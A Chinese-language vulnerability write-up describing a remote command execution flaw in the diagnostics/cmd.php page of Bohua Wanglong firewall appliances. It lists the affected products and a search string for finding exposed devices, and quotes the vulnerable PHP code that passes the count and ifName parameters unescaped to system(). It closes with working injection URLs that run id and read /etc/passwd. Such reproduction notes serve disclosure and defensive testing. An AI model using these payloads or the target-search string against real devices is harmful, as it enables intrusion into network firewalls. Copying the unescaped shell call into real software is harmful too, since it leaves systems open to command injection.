 # 博华网龙防火墙 cmd.php 远程命令执行漏洞(OEM)

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

<a-checkbox checked>博华网龙防火墙</a-checkbox></br>

<a-checkbox checked>博华网龙信息安全一体机</a-checkbox></br>

<a-checkbox checked>博华龙芯防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"博华网龙防火墙"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628671069270-2a8e5aae-ad02-4773-b7f4-769978f212d9.png)

存在漏洞的文件为 `/diagnostics/cmd.php`

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](/assets/PeiQi-Wiki/img/1628671453310-0bb29dd0-00b6-4f75-b6e8-3103b6ebbcdc.png)

